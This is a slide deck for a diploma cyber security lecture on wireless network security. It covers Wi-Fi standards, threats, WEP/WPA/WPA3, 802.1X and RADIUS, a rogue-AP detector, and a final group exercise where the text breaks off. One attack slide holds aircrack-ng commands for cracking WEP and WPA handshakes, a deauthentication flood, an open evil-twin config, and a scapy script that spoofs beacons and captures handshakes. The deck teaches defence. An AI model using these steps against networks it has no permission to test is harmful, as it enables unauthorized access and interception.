


# Wireless Network Security
## Unit III: Network & System Security
### Lecture 19: Securing Wireless Communications and Networks

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Semester V | Diploma ICT | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Networking Fundamentals

<div class="grid grid-cols-2 gap-6">

<div>

## 📡 Wireless Technology Overview

**Wireless networking** uses radio frequency signals to transmit data between devices without physical cables.

### 🎯 IEEE 802.11 Standards
```yaml
802.11 Legacy (1997):
  - Frequency: 2.4 GHz
  - Speed: Up to 2 Mbps
  - Range: ~20 meters
  - Security: WEP (weak)

802.11a (1999):
  - Frequency: 5 GHz
  - Speed: Up to 54 Mbps
  - Range: ~35 meters
  - Less congested band

802.11b (1999):
  - Frequency: 2.4 GHz
  - Speed: Up to 11 Mbps
  - Range: ~35 meters
  - Better range than 802.11a

802.11g (2003):
  - Frequency: 2.4 GHz
  - Speed: Up to 54 Mbps
  - Range: ~35 meters
  - Backward compatible with 11b

802.11n (2009):
  - Frequency: 2.4/5 GHz
  - Speed: Up to 600 Mbps
  - MIMO technology
  - Better range and reliability

802.11ac (2013):
  - Frequency: 5 GHz
  - Speed: Up to 6.93 Gbps
  - Enhanced MIMO
  - Beamforming technology

802.11ax/Wi-Fi 6 (2019):
  - Frequency: 2.4/5/6 GHz
  - Speed: Up to 9.6 Gbps
  - OFDMA technology
  - Improved efficiency
```

### 📊 Wireless Security Evolution
- **1999:** WEP (Wired Equivalent Privacy)
- **2003:** WPA (Wi-Fi Protected Access)
- **2004:** WPA2 (802.11i standard)
- **2018:** WPA3 (Enhanced security)
- **2020:** Wi-Fi 6E (6 GHz band)

</div>

<div>

## 🌐 Wireless Network Architecture

### 🏗️ Network Components


### 🔧 Wireless Infrastructure Types
```yaml
Standalone Access Points:
  - Independent operation
  - Local configuration
  - Limited scalability
  - Suitable for small networks

Controller-based (Centralized):
  - Central management
  - Unified policies
  - Seamless roaming
  - Enterprise scalability

Cloud-managed:
  - Remote management
  - Automatic updates
  - Analytics and insights
  - Multi-site management

Mesh Networks:
  - Self-configuring
  - Self-healing
  - Extended coverage
  - Redundant paths
```

### 📊 Wireless Frequency Bands
```yaml
2.4 GHz Band:
  Channels: 1, 6, 11 (non-overlapping)
  Range: Longer range
  Penetration: Better through walls
  Interference: High (microwaves, Bluetooth)
  Bandwidth: Lower bandwidth

5 GHz Band:
  Channels: 36, 40, 44, 48, 149, 153, 157, 161
  Range: Shorter range
  Penetration: Limited through walls
  Interference: Lower interference
  Bandwidth: Higher bandwidth

6 GHz Band (Wi-Fi 6E):
  Channels: 59 available channels
  Range: Similar to 5 GHz
  Penetration: Limited
  Interference: Minimal (new band)
  Bandwidth: Highest bandwidth
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Security Threats

<div class="grid grid-cols-2 gap-6">

<div>

## 🚨 Common Wireless Attacks

### 🕵️ Passive Attacks
```yaml
Eavesdropping:
  - Packet capture/sniffing
  - Unencrypted traffic interception
  - Sensitive data extraction
  - Tools: Wireshark, Kismet

Traffic Analysis:
  - Communication pattern analysis
  - Network topology mapping
  - Device identification
  - Behavioral profiling

War Driving/Walking:
  - Systematic network discovery
  - GPS mapping of networks
  - Vulnerability assessment
  - Security posture evaluation
```

### ⚔️ Active Attacks
```yaml
Rogue Access Points:
  - Unauthorized AP deployment
  - Network impersonation
  - Credential harvesting
  - Man-in-the-middle setup

Evil Twin Attacks:
  - Legitimate AP impersonation
  - Stronger signal provision
  - User redirection
  - Data interception

Jamming Attacks:
  - Signal interference
  - Denial of service
  - Communication disruption
  - Frequency flooding

WPS Attacks:
  - PIN brute force
  - Pixie dust attack
  - Weak implementation exploitation
  - Quick network compromise
```

### 💻 Attack Demonstration Tools
```bash
# Aircrack-ng suite for wireless security testing
# Monitor mode setup
airmon-ng start wlan0

# Network discovery
airodump-ng wlan0mon

# WEP key cracking
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
aireplay-ng -3 -b 00:11:22:33:44:55 wlan0mon
aircrack-ng capture-01.cap

# WPA/WPA2 handshake capture
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon
aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon
aircrack-ng -w wordlist.txt handshake-01.cap

# Evil twin setup with hostapd
echo "interface=wlan0
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
auth_algs=1
wpa=0" > hostapd.conf

hostapd hostapd.conf
```

</div>

<div>

## 🔍 Attack Vectors and Techniques

### 🎯 Man-in-the-Middle (MITM)
```python
# Simplified WiFi MITM attack simulation
import scapy.all as scapy
from scapy.layers.dot11 import Dot11, Dot11Beacon, Dot11Elt
import threading
import time

class WiFiMITM:
    def __init__(self, interface, target_ssid, fake_ssid):
        self.interface = interface
        self.target_ssid = target_ssid
        self.fake_ssid = fake_ssid
        self.target_bssid = None
        self.clients = []
    
    def scan_networks(self):
        """Scan for target network"""
        def packet_handler(packet):
            if packet.haslayer(Dot11Beacon):
                ssid = packet[Dot11Elt].info.decode()
                if ssid == self.target_ssid:
                    self.target_bssid = packet[Dot11].addr3
                    print(f"Found target: {ssid} - {self.target_bssid}")
        
        print(f"Scanning for {self.target_ssid}...")
        scapy.sniff(iface=self.interface, prn=packet_handler, timeout=30)
    
    def create_evil_twin(self):
        """Create fake access point"""
        # Create beacon frame
        beacon = (
            scapy.RadioTap() /
            Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", 
                  addr2="aa:bb:cc:dd:ee:ff", addr3="aa:bb:cc:dd:ee:ff") /
            Dot11Beacon(cap=0x1104) /
            Dot11Elt(ID="SSID", info=self.fake_ssid, len=len(self.fake_ssid)) /
            Dot11Elt(ID="Rates", info='\x82\x84\x8b\x96\x0c\x12\x18\x24') /
            Dot11Elt(ID="DSset", info='\x06')
        )
        
        print(f"Broadcasting evil twin: {self.fake_ssid}")
        while True:
            scapy.sendp(beacon, iface=self.interface, verbose=False)
            time.sleep(0.1)
    
    def deauth_attack(self):
        """Deauthenticate clients from legitimate AP"""
        if not self.target_bssid:
            return
        
        # Broadcast deauth
        deauth = (
            scapy.RadioTap() /
            Dot11(type=0, subtype=12, addr1="ff:ff:ff:ff:ff:ff",
                  addr2=self.target_bssid, addr3=self.target_bssid) /
            scapy.Dot11Deauth(reason=7)
        )
        
        print("Starting deauthentication attack...")
        for _ in range(10):
            scapy.sendp(deauth, iface=self.interface, verbose=False)
            time.sleep(0.1)
    
    def capture_handshake(self):
        """Capture WPA handshake for cracking"""
        def packet_handler(packet):
            if packet.haslayer(scapy.EAPOL):
                print("WPA handshake captured!")
                # Save packet for offline cracking
                scapy.wrpcap("handshake.pcap", packet, append=True)
        
        print("Capturing WPA handshakes...")
        scapy.sniff(iface=self.interface, prn=packet_handler, 
                   filter="ether proto 0x888e")

# Educational use only - demonstrates attack concepts
# mitm = WiFiMITM("wlan0mon", "TargetNetwork", "FreeWiFi")
# mitm.scan_networks()
```

### 🔐 Encryption Breaking
```yaml
WEP Vulnerabilities:
  - RC4 stream cipher weakness
  - Initialization Vector (IV) reuse
  - Weak key scheduling
  - Statistical analysis attacks
  - Recoverable in minutes

WPA/WPA2 Attacks:
  - Handshake capture required
  - Dictionary/brute force attacks
  - PMKID attacks (WPA2)
  - Offline password cracking
  - GPU-accelerated cracking

WPS Vulnerabilities:
  - PIN brute force (11,000 combinations)
  - Pixie dust attack
  - Default PIN usage
  - Weak random number generation
  - Authentication bypass
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Security Protocols

<div class="grid grid-cols-2 gap-6">

<div>

## 🔐 WEP (Wired Equivalent Privacy)

### 📊 WEP Technical Details
```yaml
Encryption Algorithm: RC4 stream cipher
Key Lengths: 40-bit or 104-bit (plus 24-bit IV)
Authentication: Open system or shared key
Initialization Vector: 24-bit (transmitted in clear)
Key Schedule: Weak (predictable patterns)
Integrity Check: CRC-32 checksum
```

### 🚨 WEP Vulnerabilities
```python
# WEP vulnerability demonstration (educational)
import struct

class WEPWeakness:
    def __init__(self):
        self.collected_ivs = []
        self.key_candidates = {}
    
    def analyze_iv_weakness(self, iv, first_byte):
        """Analyze weak IVs that reveal key information"""
        # Weak IVs in the format (A+3, N-1, X)
        # where A is the key byte index, N is 256, X is any value
        
        if iv[0] == 3 and iv[1] == 255:  # Weak IV pattern
            # This IV potentially reveals information about key[0]
            key_byte_candidate = first_byte ^ iv[0]
            
            if 0 not in self.key_candidates:
                self.key_candidates[0] = {}
            
            if key_byte_candidate not in self.key_candidates[0]:
                self.key_candidates[0][key_byte_candidate] = 0
            
            self.key_candidates[0][key_byte_candidate] += 1
    
    def crack_wep_key(self, packets):
        """Demonstrate WEP key recovery process"""
        for packet in packets:
            iv = packet.iv  # 24-bit IV
            encrypted_data = packet.data
            
            # Extract first encrypted byte (after IV)
            first_byte = encrypted_data[0]
            
            # Analyze for weak IV patterns
            self.analyze_iv_weakness(iv, first_byte)
        
        # Determine most likely key bytes
        recovered_key = []
        for i in range(5):  # 40-bit WEP has 5 key bytes
            if i in self.key_candidates:
                # Find most frequent candidate
                best_candidate = max(self.key_candidates[i].items(), 
                                   key=lambda x: x[1])
                recovered_key.append(best_candidate[0])
        
        return recovered_key

# Note: This is a simplified demonstration of WEP weaknesses
# Real attacks use statistical analysis of thousands of packets
```

## 🛡️ WPA/WPA2 (Wi-Fi Protected Access)

### 🔧 WPA2 Security Architecture
```yaml
WPA2 Components:
  Authentication:
    - 802.1X/EAP (Enterprise)
    - Pre-Shared Key (Personal)
    - Four-way handshake
    - Mutual authentication
  
  Encryption:
    - AES-CCMP (Counter Mode with CBC-MAC)
    - 128-bit encryption
    - Message integrity check
    - Replay protection
  
  Key Management:
    - PMK (Pairwise Master Key)
    - PTK (Pairwise Transient Key)
    - GTK (Group Temporal Key)
    - Dynamic key generation
```

</div>

<div>

## 🔒 WPA3 Enhanced Security

### 🚀 WPA3 Improvements
```yaml
WPA3-Personal:
  - SAE (Simultaneous Authentication of Equals)
  - Protection against offline dictionary attacks
  - Forward secrecy
  - 192-bit encryption option
  
WPA3-Enterprise:
  - Suite B cryptographic standards
  - 192-bit minimum security
  - GCMP-256 encryption
  - HMAC-SHA384 authentication
  
Enhanced Open:
  - Opportunistic Wireless Encryption (OWE)
  - Encryption for open networks
  - Protection against passive eavesdropping
  - No pre-shared keys required
```

### 💻 WPA3 Implementation
```python
# WPA3 SAE (Dragonfly) key exchange simulation
import hashlib
import secrets
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.hkdf import HKDF

class WPA3_SAE:
    def __init__(self, password, ssid):
        self.password = password
        self.ssid = ssid
        self.group_order = 2**256 - 2**32 - 977  # P-256 curve order
    
    def generate_pwe(self, mac_a, mac_b):
        """Generate Password Element (PWE) using hunt-and-peck method"""
        counter = 1
        
        while counter < 256:
            # Create base string
            base = self.password.encode() + self.ssid.encode() + mac_a + mac_b + counter.to_bytes(1, 'big')
            
            # Hash the base
            digest = hashlib.sha256(base).digest()
            
            # Convert to integer
            value = int.from_bytes(digest, 'big')
            
            # Check if value is valid point on curve
            if value < self.group_order:
                # This would be the x-coordinate of PWE
                # In real implementation, we'd validate it's on the curve
                return value
            
            counter += 1
        
        raise ValueError("Failed to generate PWE")
    
    def sae_commit(self, mac_a, mac_b):
        """Generate SAE commit message"""
        # Generate PWE
        pwe = self.generate_pwe(mac_a, mac_b)
        
        # Generate random scalar
        rand_scalar = secrets.randbelow(self.group_order)
        
        # Generate random element (mask)
        rand_element = secrets.randbelow(self.group_order)
        
        # Calculate commit scalar and element
        commit_scalar = (rand_scalar + rand_element) % self.group_order
        commit_element = (rand_element * pwe) % self.group_order
        
        return {
            'scalar': commit_scalar,
            'element': commit_element,
            'rand_scalar': rand_scalar,  # Keep for confirm calculation
            'pwe': pwe
        }
    
    def sae_confirm(self, own_commit, peer_commit, mac_a, mac_b):
        """Generate SAE confirm message"""
        # Calculate shared secret
        shared_secret = (peer_commit['element'] * own_commit['rand_scalar']) % self.group_order
        
        # Generate KCK (Key Confirmation Key) and PMK
        kck_pmk = self.generate_keys(shared_secret, mac_a, mac_b)
        
        # Calculate confirm value
        confirm_data = mac_a + mac_b + own_commit['scalar'].to_bytes(32, 'big') + \
                      peer_commit['scalar'].to_bytes(32, 'big')
        
        confirm = hashlib.sha256(kck_pmk['kck'] + confirm_data).digest()[:16]
        
        return {
            'confirm': confirm,
            'pmk': kck_pmk['pmk']
        }
    
    def generate_keys(self, shared_secret, mac_a, mac_b):
        """Generate KCK and PMK from shared secret"""
        # Key derivation using HKDF
        salt = mac_a + mac_b
        info = b"SAE KCK and PMK"
        
        hkdf = HKDF(
            algorithm=hashes.SHA256(),
            length=64,  # 32 bytes KCK + 32 bytes PMK
            salt=salt,
            info=info
        )
        
        key_material = hkdf.derive(shared_secret.to_bytes(32, 'big'))
        
        return {
            'kck': key_material[:32],
            'pmk': key_material[32:]
        }
```

### 🔧 WPA3 Configuration Example
```bash
# hostapd configuration for WPA3
interface=wlan0
driver=nl80211
ssid=SecureNetwork_WPA3
hw_mode=g
channel=6
country_code=US

# WPA3-Personal configuration
wpa=2
wpa_key_mgmt=SAE
sae_password=StrongPassword123!
sae_pwe=2
ieee80211w=2

# Enhanced security settings
wpa_pairwise=CCMP
rsn_pairwise=CCMP
group_mgmt_cipher=AES-128-CMAC

# Disable WPS
wps_state=0

# Additional security features
ignore_broadcast_ssid=0
macaddr_acl=0
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: default
---

# Enterprise Wireless Security

<div class="grid grid-cols-2 gap-6">

<div>

## 🏢 802.1X Authentication

### 🔧 EAP Methods
```yaml
EAP-TLS (Transport Layer Security):
  - Certificate-based authentication
  - Mutual authentication
  - Strongest security
  - PKI infrastructure required
  
EAP-PEAP (Protected EAP):
  - TLS tunnel for protection
  - Username/password authentication
  - Server certificate required
  - Client certificate optional
  
EAP-TTLS (Tunneled TLS):
  - Secure tunnel creation
  - Legacy authentication support
  - Flexible inner authentication
  - Good for mixed environments
  
EAP-FAST (Flexible Authentication via Secure Tunneling):
  - Cisco proprietary
  - Protected Access Credential (PAC)
  - No certificates required
  - Automatic provisioning
```

### 🏗️ RADIUS Infrastructure


### 💻 FreeRADIUS Configuration
```bash
# FreeRADIUS configuration for wireless authentication
# /etc/freeradius/3.0/clients.conf
client wireless-controller {
    ipaddr = 192.168.1.100
    secret = SharedSecret123
    require_message_authenticator = yes
}

# /etc/freeradius/3.0/sites-available/default
authorize {
    filter_username
    preprocess
    chap
    mschap
    digest
    suffix
    eap {
        ok = return
    }
    files
    sql
    ldap
    expiration
    logintime
    pap
}

authenticate {
    Auth-Type PAP {
        pap
    }
    Auth-Type CHAP {
        chap
    }
    Auth-Type MS-CHAP {
        mschap
    }
    digest
    eap
}

# EAP configuration - /etc/freeradius/3.0/mods-available/eap
eap {
    default_eap_type = peap
    timer_expire = 60
    ignore_unknown_eap_types = no
    
    tls-config tls-common {
        certificate_file = ${certdir}/server.pem
        private_key_file = ${certdir}/server.key
        ca_file = ${cadir}/ca.pem
        cipher_list = "HIGH"
        tls_min_version = "1.2"
    }
    
    peap {
        tls = tls-common
        default_eap_type = mschapv2
        copy_request_to_tunnel = no
        use_tunneled_reply = no
        virtual_server = "inner-tunnel"
    }
}
```

</div>

<div>

## 🛡️ Wireless IDS/IPS

### 🕵️ Wireless Intrusion Detection
```yaml
Detection Capabilities:
  Rogue AP Detection:
    - Unauthorized access points
    - Evil twin identification
    - MAC address spoofing
    - Signal strength analysis
  
  Attack Detection:
    - Deauthentication floods
    - Association/disassociation attacks
    - Management frame attacks
    - Brute force attempts
  
  Policy Violations:
    - Unauthorized devices
    - Encryption policy violations
    - SSID policy violations
    - Channel usage violations
  
  Performance Monitoring:
    - RF interference detection
    - Channel utilization
    - Client connectivity issues
    - Throughput anomalies
```

### 💻 Wireless Security Monitoring
```python
# Wireless security monitoring system
import scapy.all as scapy
from scapy.layers.dot11 import Dot11, Dot11Beacon, Dot11Deauth
import time
import threading
from collections import defaultdict

class WirelessSecurityMonitor:
    def __init__(self, interface):
        self.interface = interface
        self.authorized_aps = {}  # BSSID -> SSID mapping
        self.detected_aps = {}
        self.client_associations = defaultdict(set)
        self.deauth_counts = defaultdict(int)
        self.alerts = []
    
    def load_authorized_aps(self, ap_list):
        """Load list of authorized access points"""
        self.authorized_aps = ap_list
    
    def packet_handler(self, packet):
        """Process captured wireless packets"""
        if not packet.haslayer(Dot11):
            return
        
        # Check for beacon frames (AP advertisements)
        if packet.haslayer(Dot11Beacon):
            self.analyze_beacon(packet)
        
        # Check for deauthentication attacks
        elif packet.haslayer(Dot11Deauth):
            self.analyze_deauth(packet)
        
        # Check for association/disassociation
        elif packet.type == 0 and packet.subtype in [0, 1, 10, 11]:
            self.analyze_association(packet)
    
    def analyze_beacon(self, packet):
        """Analyze beacon frames for rogue APs"""
        bssid = packet[Dot11].addr3
        ssid = packet[Dot11Elt].info.decode('utf-8', errors='ignore')
        
        # Update detected APs
        self.detected_aps[bssid] = {
            'ssid': ssid,
            'channel': ord(packet[Dot11Elt:3].info),
            'last_seen': time.time(),
            'signal_strength': packet.dBm_AntSignal if hasattr(packet, 'dBm_AntSignal') else None
        }
        
        # Check if this is an authorized AP
        if bssid not in self.authorized_aps:
            self.generate_alert(
                'ROGUE_AP_DETECTED',
                f"Unauthorized AP detected: {ssid} ({bssid})"
            )
        
        # Check for evil twin (same SSID, different BSSID)
        authorized_ssids = set(self.authorized_aps.values())
        if ssid in authorized_ssids and bssid not in self.authorized_aps:
            self.generate_alert(
                'EVIL_TWIN_SUSPECTED',
                f"Possible evil twin: {ssid} ({bssid})"
            )
    
    def analyze_deauth(self, packet):
        """Analyze deauthentication attacks"""
        src = packet[Dot11].addr2
        dst = packet[Dot11].addr1
        
        # Count deauth frames
        key = (src, dst)
        self.deauth_counts[key] += 1
        
        # Alert on excessive deauth frames
        if self.deauth_counts[key] > 10:  # Threshold
            self.generate_alert(
                'DEAUTH_FLOOD',
                f"Deauthentication flood detected from {src} to {dst}"
            )
    
    def analyze_association(self, packet):
        """Analyze association patterns"""
        if packet.subtype in [0, 1]:  # Association request/response
            client = packet[Dot11].addr2
            ap = packet[Dot11].addr1
            
            self.client_associations[ap].add(client)
            
            # Check if client is associating with rogue AP
            if ap not in self.authorized_aps:
                self.generate_alert(
                    'CLIENT_ROGUE_ASSOCIATION',
                    f"Client {client} associated with rogue AP {ap}"
                )
    
    def generate_alert(self, alert_type, message):
        """Generate security alert"""
        alert = {
            'timestamp': time.time(),
            'type': alert_type,
            'message': message
        }
        self.alerts.append(alert)
        print(f"[ALERT] {alert_type}: {message}")
    
    def start_monitoring(self):
        """Start wireless security monitoring"""
        print(f"Starting wireless security monitoring on {self.interface}")
        scapy.sniff(iface=self.interface, prn=self.packet_handler, store=0)
    
    def generate_report(self):
        """Generate security report"""
        report = {
            'detected_aps': len(self.detected_aps),
            'authorized_aps': len(self.authorized_aps),
            'rogue_aps': len([ap for ap in self.detected_aps if ap not in self.authorized_aps]),
            'total_alerts': len(self.alerts),
            'recent_alerts': [alert for alert in self.alerts if time.time() - alert['timestamp'] < 3600]
        }
        return report

# Usage example
# monitor = WirelessSecurityMonitor("wlan0mon")
# monitor.load_authorized_aps({"aa:bb:cc:dd:ee:ff": "CorporateWiFi"})
# monitor.start_monitoring()
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: default
---

# Wireless Security Best Practices

<div class="grid grid-cols-2 gap-6">

<div>

## 🛡️ Access Point Security

### 🔧 Secure Configuration
```yaml
Authentication & Encryption:
  - Use WPA3 (or WPA2 minimum)
  - Strong passwords (12+ characters)
  - Enterprise authentication (802.1X)
  - Disable WPS completely
  - Regular password rotation

Access Control:
  - MAC address filtering (additional layer)
  - SSID hiding (security through obscurity)
  - Guest network isolation
  - Time-based access restrictions
  - Bandwidth limitations

Management Security:
  - Change default admin credentials
  - Disable remote management
  - Use HTTPS for web interface
  - Enable management VLAN
  - Firmware updates
  
RF Security:
  - Optimal power levels
  - Channel planning
  - Coverage area control
  - Rogue AP detection
  - RF monitoring
```

### 💻 Cisco WLC Configuration
```bash
# Cisco Wireless LAN Controller configuration
# WLAN creation and security settings

# Create secure corporate WLAN
(Cisco Controller) > config wlan create 1 Corporate Corporate_SSID

# Security settings
(Cisco Controller) > config wlan security wpa akm 802.1x enable 1
(Cisco Controller) > config wlan security wpa enable 1
(Cisco Controller) > config wlan security encryption aes enable 1

# 802.1X authentication
(Cisco Controller) > config wlan radius_server auth add 1 192.168.1.50 1812 SharedSecret
(Cisco Controller) > config wlan radius_server acct add 1 192.168.1.50 1813 SharedSecret

# Advanced security features
(Cisco Controller) > config wlan pmf client protection enable 1
(Cisco Controller) > config wlan 11w enable 1
(Cisco Controller) > config wlan broadcast-ssid disable 1

# Guest network with captive portal
(Cisco Controller) > config wlan create 2 Guest Guest_SSID
(Cisco Controller) > config wlan security web-auth enable 2
(Cisco Controller) > config wlan session-timeout 3600 2

# QoS and rate limiting
(Cisco Controller) > config wlan qos 2 bronze 2
(Cisco Controller) > config wlan call-snoop disable 2

# Enable WLAN
(Cisco Controller) > config wlan enable 1
(Cisco Controller) > config wlan enable 2
```

</div>

<div>

## 📱 Client Device Security

### 🔐 Device Configuration
```yaml
Connection Security:
  - Verify network authenticity
  - Check certificate validity
  - Avoid auto-connect to open networks
  - Use VPN on untrusted networks
  - Disable WiFi when not needed

Profile Management:
  - Remove unused network profiles
  - Set network priority correctly
  - Use device certificates
  - Configure enterprise profiles
  - Regular profile auditing

Mobile Device Management:
  - Corporate device policies
  - App whitelisting/blacklisting
  - Remote wipe capabilities
  - Compliance checking
  - Certificate deployment
```

### 🛠️ iOS Enterprise WiFi Profile
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
        <dict>
            <key>AutoJoin</key>
            <true/>
            <key>EAPClientConfiguration</key>
            <dict>
                <key>AcceptEAPTypes</key>
                <array>
                    <integer>25</integer> <!-- EAP-PEAP -->
                </array>
                <key>EAPFASTUsePAC</key>
                <false/>
                <key>EAPFASTProvisionPAC</key>
                <false/>
                <key>TTLSInnerAuthentication</key>
                <string>MSCHAPv2</string>
                <key>TLSTrustedServerNames</key>
                <array>
                    <string>radius.company.com</string>
                </array>
            </dict>
            <key>EncryptionType</key>
            <string>WPA2</string>
            <key>HIDDEN_NETWORK</key>
            <false/>
            <key>IsHotspot</key>
            <false/>
            <key>PayloadDescription</key>
            <string>Corporate WiFi Configuration</string>
            <key>PayloadDisplayName</key>
            <string>Corporate WiFi</string>
            <key>PayloadIdentifier</key>
            <string>com.company.wifi.corporate</string>
            <key>PayloadType</key>
            <string>com.apple.wifi.managed</string>
            <key>PayloadUUID</key>
            <string>A1B2C3D4-E5F6-7890-ABCD-EF1234567890</string>
            <key>PayloadVersion</key>
            <integer>1</integer>
            <key>ProxyType</key>
            <string>None</string>
            <key>SSID_STR</key>
            <string>CorporateWiFi</string>
        </dict>
    </array>
    <key>PayloadDisplayName</key>
    <string>Corporate WiFi Profile</string>
    <key>PayloadIdentifier</key>
    <string>com.company.wireless</string>
    <key>PayloadRemovalDisallowed</key>
    <true/>
    <key>PayloadType</key>
    <string>Configuration</string>
    <key>PayloadUUID</key>
    <string>B2C3D4E5-F6A7-8901-BCDE-F23456789012</string>
    <key>PayloadVersion</key>
    <integer>1</integer>
</dict>
</plist>
```

### 🔧 Network Segmentation
```yaml
VLAN-based Segregation:
  Corporate VLAN (10):
    - Employee devices
    - Full network access
    - Domain authentication
    - Corporate resources
  
  Guest VLAN (20):
    - Visitor devices
    - Internet-only access
    - Captive portal
    - Time restrictions
  
  IoT VLAN (30):
    - IoT devices
    - Limited communication
    - Device-specific policies
    - Network monitoring
  
  BYOD VLAN (40):
    - Personal devices
    - Restricted access
    - NAC compliance
    - DLP enforcement
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: default
---

# Practical Exercise: Wireless Security Assessment

<div class="exercise-container">

## 🎯 Group Activity (30 minutes)

### Scenario: Corporate Wireless Security Audit

Your team is conducting a wireless security assessment for a multinational corporation with:

**Environment Details:**
- **Corporate headquarters** with 1000+ employees
- **Branch offices** in 15 locations globally
- **Remote workers** using corporate laptops
- **Guest network** for visitors and contractors
- **IoT devices** (cameras, sensors, printers)
- **BYOD policy** for smartphones and tablets

**Current Infrastructure:**
- **Mixed vendor** wireless equipment (Cisco, Aruba, Ubiquiti)
- **Multiple SSIDs** for different user types
- **Centralized management** through cloud controllers
- **Legacy devices** requiring WPA2 support
- **High-density areas** (auditoriums, cafeterias)
- **Compliance requirements** (SOX, HIPAA, PCI DSS)

### Task: Comprehensive Wireless Security Strategy

**Phase 1: Security Assessment (10 minutes)**

**Current State Analysis:**
1. What wireless security vulnerabilities would you look for?
2. How would you assess the current encryption standards?
3. What authentication weaknesses should be identified?
4. How would you evaluate network segmentation?

**Risk Evaluation:**
1. What are the primary wireless security threats for this organization?
2. How would you prioritize security risks?
3. What compliance gaps might exist?
4. What business impact scenarios should be considered?

**Phase 2: Security Architecture Design (10 minutes)**

**Authentication Strategy:**
1. What authentication methods would you recommend for different user types?
2. How would you implement enterprise authentication (802.1X)?
3. What certificate management strategy would you use?
4. How would you handle guest access securely?

**Network Segmentation:**
1. How would you design VLAN structure for different device types?
2. What inter-VLAN communication rules would you establish?
3. How would you implement NAC for device compliance?
4. What monitoring and access controls would you deploy?

**Phase 3: Implementation and Monitoring (10 minutes)**

**Security Controls:**
1. What wireless intrusion detection/prevention would you deploy?
2. How would you implement rogue AP detection?
3. What security monitoring and alerting would you establish?
4. How would you handle security incident response?

**Ongoing Management:**
1. What security policies and procedures would you establish?
2. How would you handle security awareness training?
3. What regular security assessments would you perform?
4. How would you manage security updates and patches?

**Deliverables:**
- Wireless security assessment report
- Enterprise authentication design
- Network segmentation plan  
- Security monitoring strategy
- Implementation roadmap and timeline

</div>

<style>
.exercise-container {
